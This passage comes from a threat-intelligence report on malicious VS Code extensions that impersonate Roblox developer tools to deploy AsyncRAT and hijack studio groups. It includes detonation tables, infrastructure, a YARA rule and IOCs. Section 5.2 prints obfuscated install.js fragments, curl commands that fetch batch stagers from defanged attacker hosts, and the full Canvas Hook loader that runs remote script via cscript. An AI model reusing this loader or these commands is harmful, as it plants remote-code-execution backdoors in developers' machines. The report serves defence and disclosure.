The Lures vs. Legitimate Community Tools: Rather than inventing random names, the actor deliberately cloned the branding and workflows of legitimate developer utilities widely discussed on the Roblox Developer Forum (DevForum):
| Campaign Extension | Legitimate Tool / Community Workflow Mimicked | Targeting Context & Exploitation Value |
|---|---|---|
| Robloxboard.roblox-board (8,813 installs) |
BloxBoard & DevBoard / DevTasks (Roblox Studio sprint management plugins) | The single most installed package across the entire 216-extension fleet. Promoted on the DevForum as a project management board for Roblox developer teams. Carried the giantapplebees[.]shop JScript stager. |
| EthanRose.taskblox | TaskBlox / DevTasks workflow tools | Targeted Roblox developers managing multi-developer build sprints. Delivered JScript stagers from giantapplebees[.]shop. |
| RealismHub.trello-management | MaximumADHD/Character-Realism (open-source immersion system by CloneTrooper1019) + exploit "Hub" terminology | Traded on the widely trusted "Realism" brand known across the developer community, combined with Roblox script-executor terminology. Fetched payloads from pixelrbx[.]com. |
| LuaStyle.kit-toolbox flowstate.luaslope |
Roblox Studio Toolbox & StyLua / Selene (Luau formatters and linters) | Lua is the sole language of Roblox. Mimicked Luau code formatters and the built-in Studio Toolbox (where creators source starter kits and asset models). Beaconed directly to RAT server 185[.]94[.]29[.]79:56001. |
| FontingFonts.monkeyfont MusicCreates.musicicgen HypeShowG.fastmusicgen |
Game GUI typography & background soundtrack generators | Targeted game creators seeking automated assets for game interfaces and audio tracks. Served batch droppers from p[x]bble[.]com (including the b1f87428620729e52.bat stager). |
| broblx8x.manager2blx2 testpublisher610.managerblx123 |
Studio management shortcuts (command: ManageRBLX: Open Task Board) |
Targeted developers seeking palette shortcuts to coordinate Studio assets and task queues. |
| BadginLNN.badgerposts | DevForum community badge & post synchronizer | Promoted directly on the Roblox DevForum in September 2026. Publicly identified by community members as a tool used to compromise developers whose groups were flipped to Pixel Studios. |
Confirmed Target Games, Studio Thefts, and Fencing: The operational goal was not passive botnet recruitment, but targeted studio theft and financial liquidation:
- Seven Burgers (*Something Something Battlegrounds*): Developer "7", creator of the viral multi-million visit battlegrounds game, was socially engineered into executing malware disguised as developer tooling. The infostealer extracted their active
.ROBLOSECURITYsession cookie to bypass two-factor authentication, seizing the Seven Burgers studio group and game places. As exposed by creator Blitfum in their YouTube investigation, ownership was transferred to the threat actor and rebranded under Pixel Studios. - Dark Cube Studio: Studio group hijacked on July 31, 2026 by an account matching the operator's handle (confirmed by creator "It's Steven" and showcased as a trophy on the holding page).
- The Button Room & Second Games: Creator Pythox (The Button Room) was compromised via the identical playbook, and Second Games was advertised as an owned trophy under an updated alias.
- Fencing via Pixel Studios & Rolimon's: The threat actor monetized stolen assets through a dual pipeline: ongoing game revenue was funneled through Pixel Studios (corroborating staging hosts
pixelrbx[.]comandpixelstudiodev[.]com), while high-value limited items were fenced through an active profile on Rolimon's.
Closing the Loop on the Operator Chat: This ecosystem context provides the exact missing link to the live C2 chat on VM 408 on October 6. When the operator scoffed: "all you did was find the roblox devfourm posts / ur not special", they were not guessing. The threat actors were actively monitoring the DevForum threads where victimized developers had begun exposing the fake extensions, the stolen groups, and the Pixel Studios rebrand.
How the Lab Wave Changed Over Time
Tracing the 122 detonations across August, September, and October reveals how the operator systematically adapted infrastructure and payload delivery:
- Late August to Mid-September: The actor retained the same
boardflownpm dependency and_0x-obfuscatedinstall.jsas Wave 1, but began rotating publisher IDs on almost an extension-by-extension basis (such asAgendaStudiostoAgendaLLC,PRSoftworks,flownalks,PhanBanLLC, and Atlassian typosquats likeatIassiansumandAtIassianlm). Cover themes expanded rapidly beyond project management boards into typography (monkeyfont), audio generation (musicicgen,fastmusicgen), Lua and Roblox studio tooling (kit-toolbox,luastyle), and Notepad clones. C2 operations shifted to216[.]107[.]139[.]88and then to185[.]94[.]29[.]79, consistently over port56001under the pinnedCN=Hlkfsmwtezzcertificate. - October: C2 consolidated back onto
216[.]107[.]137[.]77:56001. Crucially, the loader completely abandoned the telltaleboardflownpm package name: extensions likeframemap-dev,studiodocs-app,studiotask-app, andlinkintreeconnected directly to the same port 56001 RAT with no npm dependency at all. Staging shifted top[e]bblexvale[.]comdelivering droppers prefixed with the operator's handle, cementing the operational security slip that ties the infrastructure directly to the threat actor persona (visible in the screenshots).
Sandbox-Detonated Extension Roster (36 Extensions, 41 Builds, 122 Detonations)
Between August 19 and October 24, 2026, the sandbox detonated 36 distinct malicious extensions (41 builds) across 122 runs that linked to the campaign via the bundled boardflow module, an outbound connection to the :56001 C2 cluster, or a stager pull from p[x]bble[.]com / p[e]bblexvale[.]com:
| First Seen (UTC) | Extension ID & Version | Runs | Campaign Link |
|---|---|---|---|
| 2026-08-21 | LineInnovation.LineDeck 1.0.0 | 1 | Bundled boardflow npm loader → elrbx[.]com |
| 2026-08-27 | AgendaStudios.frux-board 1.0.1 | 7 | Bundled boardflow npm loader → lnterstudios[.]org/846385d443.bat |
| 2026-08-28 | PRSoftworks.vlux-board 1.0.1 | 2 | Bundled boardflow loader + lnterstudios[.]org/846385d443.bat + dependency on typewriter-keyin |
| 2026-09-03 | TypinKey.typewritin-keyal 1.0.1 | 1 | Bundled loader + 216[.]107[.]139[.]88:56001 + lnterstudios[.]org/7f82614a.bat |
| 2026-09-06 | AgendaLLC.zlux-board 1.0.1 | 1 | Bundled boardflow npm loader |
| 2026-09-07 | NotePadExtra.notepadextraplus 1.0.1 | 2 | Bundled boardflow npm loader + lnterstudios[.]org/846385d443.bat |
| 2026-09-08 | LaunchAppsLLC.launchdesk-app 1.0.0 to 1.0.1 | 2 | Bundled vs-modules/resources.js → boardflow[.]uk/package-update |
| 2026-09-08 | TrellKhan.devora 1.0.2 | 1 | Bundled loader + :56001 C2 + p[x]bble[.]com/b1f87428620729e52.bat |
| 2026-09-08 | BadginLNN.badgerposts 1.0.1 | 3 | Bundled loader + lnterstudios[.]org (v1.0.1) and p[x]bble[.]com (v1.0.2). Cited on Roblox DevForum as used in developer account takeovers rebranded to Pixel Studios |
| 2026-09-08 | MicroLLC.typewriter-keyin 1.0.1 | 1 | Bundled boardflow npm loader + lnterstudios[.]org/7f82614a.bat |
| 2026-09-08 | HypeShowG.fastmusicgen 1.0.1 | 1 | Bundled loader + 216[.]107[.]139[.]88:56001 + p[x]bble[.]com/b1f87428620729e52.bat |
| 2026-09-09 | MusicCreates.musicicgen 1.0.1 | 1 | Byte-identical install.js seed (_0x53192b) to monkeyfont + p[x]bble[.]com |
| 2026-09-09 | FontingFonts.monkeyfont 1.0.0 | 3 | Bundled loader + 216[.]107[.]139[.]88:56001 + p[x]bble[.]com/b1f87428620729e52.bat |
| 2026-09-10 | AppLaunchLLC.desk-24129806 1.0.0 | 1 | Bundled boardflow npm loader |
| 2026-09-14 | ToolingForAll.toolingforalls 1.0.2 | 5 | Bundled loader + :56001 C2 |
| 2026-09-15 | LuaStyle.kit-toolbox 1.0.1 to 1.0.2 | 5 | Bundled loader + 185[.]94[.]29[.]79:56001 |
| 2026-09-17 | Tumricas.wombopoc 1.0.1 | 2 | Bundled boardflow npm loader |
| 2026-09-18 | Lommin.workoran 1.0.2 | 7 | Bundled boardflow npm loader |
| 2026-09-19 | atIassiansum.Trello-Boards 1.0.1 | 5 | Bundled loader + 216[.]107[.]139[.]88:56001 |
| 2026-09-19 | AtIassianlm.Trello-Boarding 1.0.1 | 5 | Bundled loader + 216[.]107[.]139[.]88:56001 |
| 2026-09-21 | flownalks.NexoraBoard 1.0.1 | 3 | Bundled loader + 216[.]107[.]139[.]88:56001 |
| 2026-09-21 | flownalks.Flowridens 1.0.2 | 2 | Bundled loader + 216[.]107[.]139[.]88:56001 |
| 2026-09-21 | PhanBanLLC.BoardlyUp 1.0.2 | 5 | Bundled loader + 216[.]107[.]139[.]88:56001 |
| 2026-10-02 | AppLaunchLLC / LaunchAppsLLC desk-######## | 10 | 10 serial-named desk-<digits> variants published in two sub-minute bursts |
| 2026-10-02 | pulsedigital.framemap-dev 0.2.0 | 1 | Canvas Hook loader → 216[.]107[.]137[.]77:56001 |
| 2026-10-05 | dawngroup.studiodocs-app 0.2.0 | 1 | Canvas Hook loader → 216[.]107[.]137[.]77:56001 |
| 2026-10-24 | alphasolutions.studiotask-app 1.2.1 | 1 | Canvas Hook → vibes-effecting[.]vercel[.]app/BguYyUsWDTi4.js → 216[.]107[.]137[.]77:56001 |
| 2026-10-24 | LKKStuner.linkintree 1.0.2 | 2 | p[e]bblexvale[.]com/p[x]bbzVkahQ5VT.bat → 216[.]107[.]137[.]77:56001 |
Unconfirmed Look-Alikes Kept Separate
Robloxboard.roblox-board2.0.1 / 4.0.1 (5 runs, September 18 to October 5): Statically contains thegiantapplebees[.]shop/555.jsstager (also shared byEthanRose.taskblox2.1.0 to 2.3.0), but the domain was already dark during late-September sandbox runs. Version 4.0.6 removed the stager while retaining thechild_processimport.broblx8x.manager2blx21.0.0 (1 run, September 16): Registered only a command palette stub (ManageRBLX: Open Task Board) with no network or file activity.b3e1379e763c84c598fbf49006b46b6df57499efbaf6d018fdc5b236c756cdd8.exe(1 run, August 19): Standalone AsyncRAT sample connecting to207[.]180[.]58[.]21:56001without theIntelDriver\VQR.cmdloader, theCN=Hlkfsmwtezzcertificate, or the campaign's crypter stub.Superkawaii(smiletime.pandataskv0.0.1 at 84,780 B &flowstate.luaslopev0.0.1 at 2,655 B): Across 7 runs, these extensions contacted onlysuperkawaii[.]clickand shared no code or infrastructure with this campaign.
5. Infrastructure Convergence and Code-Level Linkage
Only the first two stages of the infection chain (the VS Code extension lures and the Canvas Hook delivery API) were written by the operators. From the batch stager onward, all three waves rely on the same host loader, the same Donut crypter wrapper, and the same three-server AsyncRAT tier.
5.1 The Convergence Funnel: From 201 Publishers to Four Shared Choke Points
Robloxboard.roblox-board + 15 Kanban/Trello clones bundling node_modules/boardflow/install.js + direct .bat pulls from lnterstudios[.]org, p[x]bble[.]com, and elrbx[.]com.
150 empty v0.0.1 stubs published in two ~20-minute bursts, selectively updated to 33 to 40 KB extensions polling vibes-effecting[.]vercel[.]app, canvases[.]work, and canvases[.]ink.
Re-armed extensions (studiotask-app 1.2.1, linkintree 1.0.2) routing stager pulls through a JS browser check on p[e]bblexvale[.]com/p[x]bbzVkahQ5VT.bat.
p[x]bble[.]com (b1f87428620729e52.bat), Wave-3 gated domain p[e]bblexvale[.]com (p[x]bbzVkahQ5VT.bat), and carding storefront dump-central[.]cc.
@-prefixed base64 lines to C:\ProgramData\IntelDriver\VQR.cmd, copies powershell.exe to Downloads\<4-char>.exe (UkuG.exe, WBkO.exe), and patches amsi.dll, ntdll.dll, and clr.dll.
explorer.exe starting with DE AD BE CA FE BA EF + E8 <rel32>, a 16-byte per-build key, and a 13,436-byte Donut loader stub.
216[.]107[.]139[.]88 (Latitude.sh), 185[.]94[.]29[.]79, and 216[.]107[.]137[.]77 (Datacamp, same 216[.]107[.]136[.]0/22 block as .139.88) share the pinned certificate and plugin builds.
.137.77 dropped the operator handle (see screenshot).
5.2 Recovered Code Artifacts Across Stages
Wave 1: Verbatim node_modules/boardflow/install.js & Leftover Manifest Identifiers
Static indexing of 162 cached Marketplace VSIX records and 481 detonation reports exposed two errors in how the operators cloned their Wave-1 extensions:
- Un-scrubbed
Frux-Boardcommand in unrelated extensions: Four extensions pretending to be font, music, and typewriter utilities (FontingFonts.monkeyfont,MusicCreates.musicicgen,MicroLLC.typewriter-keyin, andTypinKey.typewritin-keyal) all register"onCommand:Frux-Board.open"inpackage.json, left over from cloningAgendaStudios.frux-board. - Shared
javascript-obfuscatorseed and hand-written wrapper lines: Twelve extensions carry the exact 5-space-padded importconst cp = require('child_process')atsrc/extension.js:L6andconst { spawn } = require('child_process')atsrc/patt.js:L5. Insidenode_modules/boardflow/install.js,monkeyfont(ext 895860) andmusicicgen(ext 891611) carry a byte-identical obfuscated file generated from the same build instance (seed_0x53192b=_0x57a6), whiletypewriter-keyin(ext 733647) uses a second build from the same obfuscator configuration (seed_0x4891a6=_0x1e1e):
// Verbatim from FontingFonts.monkeyfont & MusicCreates.musicicgen
// File: node_modules/boardflow/install.js (Line 1, shared seed _0x53192b=_0x57a6)
_0x53192b=_0x57a6;(function(_0x2942f9,_0x4b59b7){const _0x4fd574=_0x57a6,_0x22ea1a=_0x2942f9();while(!![]){try{const _0x1d931f=parseInt(_0x4fd574(0xe9))/0x1*(parseInt(_0x4fd574(0xd6))/0x2)+parseInt(_0...
_0x4b26=function(){return _0x4815a8;};return _0x4b26();}const {exec}=require(_0x53192b(0xdc)+_0x53192b(0xd8)),path=require(_0x53192b(0xd4)),dest=path['join'](process.env.TEMP,_0x53192b(0xda)+_0x53192b(0xd9));
// Resolved command at node_modules/boardflow/install.js:L36 (monkeyfont & musicicgen):
curl -L -o "C:\Users\Public\AppData\Local\Temp/b1f87428620729e52.bat" "hxxp://p[x]bble[.]com/b1f87428620729e52.bat"
// Verbatim from MicroLLC.typewriter-keyin (node_modules/boardflow/install.js:L1, seed _0x4891a6=_0x1e1e):
_0x4891a6=_0x1e1e;(function(_0x8c30d9,_0xeeda09){const _0x4506fd=_0x1e1e,_0x58d399=_0x8c30d9();while(!![]){try{const _0x3ac7ef=-parseInt(_0x4506fd(0x16d))/0x1+parseInt(_0x4506fd(0x175))/0x2+-parseInt(...
// Resolved command at node_modules/boardflow/install.js:L36 (typewriter-keyin & typewritin-keyal):
curl -L -o "C:\Users\Public\AppData\Local\Temp/846385d443.bat" "hxxp://lnterstudios[.]org/7f82614a.bat"
// Verbatim from LaunchAppsLLC.launchdesk-app (node_modules/vs-modules/resources.js:L14):
process.env.PACKAGE_UPDATE_URL || "hxxp://boardflow[.]uk/package-update";
Wave 2 & Wave 3: The Canvas Hook Verification Logic
In the flipped sleeper extensions (framemap-dev, studiodocs-app, kanbantask-prod, studiotask-app), the bundled npm dropper is replaced by a client that fetches /api/canvases/sync?canvasId=system-welcome-canvas and inspects the JSON object's joinNote field:
- Server-side disarming (
"ghjgjghggjh"): When the C2 server disarms an extension (observed on most sandbox runs after October 5), the API returnsjoinNote: "ghjgjghggjh", which the client ignores. - Signed hook path (
hook:v1:): A note formatted ashook:v1:<iat>.<exp>.<sig_b64>.<payload_b64>is checked against the current Unix timestamp and verified with Node'scrypto.verify(Ed25519) using a public key fetched from/api/canvases/hooks/pubkeyand cached intrusted-hook-key.json. - Unsigned bypass timestamp (
2026-09-11T00:00:00.000Z): If the note starts withjs:orfile:and the canvas JSON carriescreatedAt === "2026-09-11T00:00:00.000Z"(fired bylagoonmedia.kanbantask-prodon October 9), the client skips signature verification and executes the script directly. Either branch writes the payload to~\.<ext>\hooks\hook-<canvas>-<ts>.js, launches it viacscript //nologo, and deletes the file on exit:
async function applyCanvasJoinNote(canvas, extDir) {
const note = canvas.joinNote || "";
if (!note || note === "ghjgjghggjh") return;
let script = null;
if (note.startsWith("hook:v1:")) {
const [iat, exp, sigB64, codeB64] = note.slice(8).split(".");
const now = Math.floor(Date.now() / 1000);
if (now >= Number(iat) && now <= Number(exp)) {
const pubKey = await loadHookPubKey(extDir); // /api/canvases/hooks/pubkey -> trusted-hook-key.json
const signedBytes = Buffer.from(`${iat}.${exp}.${codeB64}`);
if (crypto.verify(null, signedBytes, pubKey, Buffer.from(sigB64, "base64"))) {
script = Buffer.from(codeB64, "base64").toString("utf8");
}
}
} else if ((note.startsWith("js:") || note.startsWith("file:")) &&
canvas.createdAt === "2026-09-11T00:00:00.000Z") {
script = extractNoteBody(note);
}
if (script) {
const hookPath = path.join(extDir, "hooks", `hook-${canvas.id}-${Date.now()}.js`);
fs.mkdirSync(path.dirname(hookPath), { recursive: true });
fs.writeFileSync(hookPath, script, "utf8");
execFile("cscript.exe", ["//nologo", hookPath], { windowsHide: true }, () => {
try { fs.unlinkSync(hookPath); } catch (_) {}
});
}
}
6. Memory Forensics: The 7-Build Donut Crypter Marker and YARA Rule
Every campaign run that produced a memory dump (31 of 31 dumps captured between September 19 and October 24, 2026) contained an injected shellcode region inside explorer.exe with the same structure:
Offset (Hex) Bytes / Value Meaning
-----------------------------------------------------------------------------------------------------------------
0x00000000 DE AD BE CA FE BA EF 7-byte crypter marker
0x00000007 E8 <rel32> CALL over the embedded instance, pushing offset 0x0C
0x0000000C <DWORD instance_len> Repeats <rel32> (matches the payload build size)
0x00000010 <16-byte key> Per-build key field
0x00000020 <Encrypted instance> Encrypted Donut instance + .NET payload
0x0000000C + <rel32> 59 48 83 E4 F0 48 89 4C 24 08 57 56 53 ... pop rcx, and rsp, -16 (13,436-byte Donut x64
PIC loader stub, SHA-256:
714aaaabe16086b0f7d089d10a402f7a33691eb6a36118ba632a6256b283beec)
While the 13,436-byte Donut x64 loader stub is byte-identical across every dump, the encrypted instance length (<rel32>) varied across seven distinct builds over the five-week capture window:
| Build Size (CALL Length, Bytes) | Memory Dumps | Dates Observed | Notes |
|---|---|---|---|
| 432,484 | 5 | Sep 19 | Wraps the 412 KB Xdggym RAT build |
| 436,399 | 8 | Sep 19 to Sep 23 | Wraps the 412 KB RAT build (C2 216[.]107[.]139[.]88) |
| 433,161 | 5 | Sep 21 to Sep 24 | Wraps the 412 KB RAT build |
| 286,192 | 2 | Sep 25 | Smaller payload build beaconing to 185[.]94[.]29[.]79:56001 |
| 431,355 | 2 | Oct 02, Oct 06 | Used in the framemap-dev and Oct 6 chat sessions |
| 432,720 | 7 | Oct 05 to Oct 23 | Used in studiodocs-app and subsequent Oct runs |
| 300,439 | 1 | Oct 24 | studiotask-app 1.2.1, coinciding with the Oct 24 plugin-set rebuild |
rule MAL_VSCode_Boardflow_Donut_Hook_Loader {
meta:
author = "@James"
date = "2026-10-25"
description = "Detects the 7-byte Donut crypter marker (DE AD BE CA FE BA EF) in memory dumps and VQR.cmd / Canvas Hook artifacts on disk"
strings:
$donut_marker = { DE AD BE CA FE BA EF E8 ?? ?? ?? 00 }
$donut_prologue = { 59 48 83 E4 F0 48 89 4C 24 08 57 56 53 }
$hook_api_1 = "/api/canvases/sync?canvasId=system-welcome-canvas" ascii wide
$hook_api_2 = "/api/canvases/hooks/pubkey" ascii wide
$loader_vqr = "C:\\ProgramData\\IntelDriver\\VQR.cmd" ascii wide nocase
condition:
($donut_marker and $donut_prologue) or (all of ($hook_api_*)) or $loader_vqr
}
7. Indicators of Compromise (IOCs)
| Category | Indicator | Note |
|---|---|---|
| RAT C2 (TCP 56001) | 216[.]107[.]137[.]77:56001 | Datacamp Limited, active Oct 2 to Oct 24, 2026 (live) |
| RAT C2 (TCP 56001-56003) | 216[.]107[.]139[.]88:56001 | Latitude.sh (same 216[.]107[.]136[.]0/22 as .137.77), active Sep 3 to Sep 24 |
| RAT C2 (TCP 56001-56003) | 185[.]94[.]29[.]79:56001 | Active Sep 15 to Sep 25, sharing plugins with .139.88 |
| Stager & Carding IP | 192[.]142[.]48[.]98 | cPanel server hosting p[x]bble[.]com, p[e]bblexvale[.]com, and dump-central[.]cc |
| Cross-Sink Stager IP | 135[.]233[.]95[.]144 | Shared across both lnterstudios[.]org (vlux-board) and p[x]bble[.]com (devora) |
| Hook API Domains | www[.]canvases[.]ink | www[.]canvases[.]work | vibes-effecting[.]vercel[.]app | Serve /api/canvases/sync?canvasId=system-welcome-canvas and /api/canvases/hooks/pubkey |
| Stager Domains | p[e]bblexvale[.]com | p[x]bble[.]com | lnterstudios[.]org | boardflow[.]uk | giantapplebees[.]shop | pixelrbx[.]com | elrbx[.]com | trelloweb[.]com | pixelstudiodev[.]com | bunnistudios[.]lol | l83[.]me | Wave 1 to 3 batch and JScript stager hosts |
| Pinned TLS Cert | CN=Hlkfsmwtezz (8ae8963b7158976f16b7525cbed1ca910dc39800e7660bb7a1e2611ce264f59e) | Pinned AsyncRAT server certificate, with client JA3 fc54e0d16d9764783542f0146a98b300 |
| Host Artifacts | C:\ProgramData\IntelDriver\VQR.cmd | %USERPROFILE%\Downloads\UkuG.exe / WBkO.exe | %APPDATA%\DBJm.xml / JNsN.xml | %LOCALAPPDATA%\gRpp.vbs | HKCU\Software\<32-hex HWID>\<32-hex plugin> | Staging directory, hidden PowerShell copies, scheduled tasks, and registry plugin cache |
Stager Hosts & Payloads
The campaign utilized nine distinct stager hosts and payload delivery endpoints across the August to October waves:
| Host / Domain | Payload & Delivery Pattern | Observed Activity |
|---|---|---|
| boardflow[.]uk | Actor's eponymous domain (www resolves to Vercel DNS). Stager: GET /package-update via curl logged to package-updates.log (destination 216[.]198[.]79[.]x / 64[.]29[.]17[.]x). |
2026 (lab-observed) |
| p[e]bblexvale[.]com (192[.]142[.]48[.]98) |
p[x]bbzVkahQ5VT.bat hosted behind a JavaScript bot challenge (standard Node.js http.get receives only challenge HTML, whereas an interactive browser receives the batch stager). |
2026-10-24 |
| p[x]bble[.]com | b1f87428620729e52.bat stager for typography, generator, and dev tooling extensions (monkeyfont, devora, fastmusicgen, musicicgen). |
2026-09-08 to 2026-09-14 |
| trelloweb[.]com | Batch droppers 3f71211e6d884cfe.bat and b4dfbba06ccbh.bat. |
2026-09-20 to 2026-09-24 |
| pixelstudiodev[.]com | Batch droppers 2eb39a20bd49194e2bb42.bat and QVZ2WkOYBB6tP4wt.bat. |
2026-09-14 |
| bunnistudios[.]lol | Batch dropper c0e707ea67cd9518c359.bat. |
2026-09-19 |
| l83[.]me | coke.bat dropper leading to C2 185[.]94[.]29[.]79:56001. |
2026-09-15 |
| giantapplebees[.]shop | JScript stager embedded within Robloxboard.roblox-board and EthanRose.taskblox. |
2026 (long-lived) |
| lnterstudios[.]org (lowercase L for I) |
Wave 1 batch droppers impersonating studio branding. | 2026-08 to 2026-09 |
File Hashes (SHA-256)
| File / Artifact | SHA-256 | Context |
|---|---|---|
| 28d40000.dll ("Xdggym" RAT) | 252d53dcbb481b1d2f60a874f83fab057c3e69d7e0f04b2115c70df51cc98c62 | Unpacked 412 KB .NET AsyncRAT binary injected into explorer.exe |
| Donut x64 Loader Stub (13,436 B) | 714aaaabe16086b0f7d089d10a402f7a33691eb6a36118ba632a6256b283beec | Byte-identical position-independent loader stub across all 7 builds |
| p[x]bbzVkahQ5VT.bat | a44d233dab53c7182ac7cf4223956218934ba880f50acb8abea0dbcb0f371f93 | Oct 24 batch stager on p[e]bblexvale[.]com (192[.]142[.]48[.]98) |
| xqbiw5s4j2.bat | a5f2373bbbecac16ffe920cd79358a244c956e9f5a63d652484a2dbd41029572 | Oct 06 batch stager ("Chat with SirRatter" session) |
| jmhu0sljrl.bat | f740fd10ee32fb3e700f7e2ceabdb50b13b7e0c43a581da223535b1c88d3ea2f | Oct 06 batch stager ("Chat with SirFucksMotherAlot" session) |
| BguYyUsWDTi4.js | 321829abcb9661468ec6ec03dc0ca981e9e508f708061f6c43784fca38f7a117 | Oct 24 JScript stager on vibes-effecting[.]vercel[.]app |
| GKvhtWU.ps1 | 5a29622a27332c2399023ead1f25ea8f07a8a55ea2313635a2b07e82ea0dd71d | Decoded stage-2 PowerShell loader (AMSI/ETW/CLR patcher) |
| VQR.cmd (Oct 24) | 420cb3f2909a42079325fea15556571c774573664b939a38602d35eeb04759a5 | Base64 @-prefixed staging file in C:\ProgramData\IntelDriver\ |
| 3f71211e6d884cfe.bat | 94be6bae35790069ef79a5487af0d28cb610bf186a459691f4e6fb5bac264d5a | Served by trelloweb[.]com (Sep 20 to Sep 24) |
| c0e707ea67cd9518c359.bat | 93de29d07dce332f287579d5cb3e2f544d558b05a74ee797521793d48f9301f3 | Served by bunnistudios[.]lol (Sep 19) |
| b1f87428620729e52.bat | 0b4fde2e8e98bca56ebe9f2b5fb048b338c829260e609d40b4338def11d56522 | Served by p[x]bble[.]com (192[.]142[.]48[.]98, Sep 8 to Sep 18) |
| 2eb39a20bd49194e2bb42.bat | 76d4975d6048b3eac64eba2775b2cd139bf0039a8396c7f8a8dc18a3afc9779d | Served by pixelstudiodev[.]com (Sep 14) |
| coke.bat | dc17591e993dc178a023ae2da13593b9c01c8d2bf1e56377adfecf60e6b300c2 | Served by l83[.]me → C2 185[.]94[.]29[.]79:56001 (Sep 15) |